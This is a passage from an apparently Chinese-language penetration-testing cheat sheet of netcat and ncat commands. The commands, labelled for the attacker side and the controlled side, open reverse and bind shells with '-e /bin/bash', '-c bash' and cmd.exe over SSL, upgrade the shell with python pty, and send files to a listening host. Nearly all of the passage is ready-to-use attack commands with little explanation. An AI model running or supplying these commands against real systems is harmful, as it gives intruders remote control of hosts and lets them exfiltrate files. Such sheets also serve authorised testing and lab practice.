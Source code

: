     # 攻击端
    nc -nv 192.168.1.1 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

- **reverse shell**
    ```bash
    # 被控端
    nc -nv 192.168.1.1 4444 -e /bin/bash

    # 攻击端
    nc -lvp 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

- **文件传输**
    ```bash
    # 收
    nc -nvlp 4444 > aaa
    ```
    ```bash
    # 发
    nc -nv 192.168.1.1 4444 </usr/share/aaa    # kali
    ```

### ncat

```bash
# 被控端
ncat lvp 4444 -e cmd.exe --allow 192.168.1.1 --ssl

# 攻击端
ncat -v 192.168.1.1 4444 --ssl
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

### Netcat Traditional
```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```
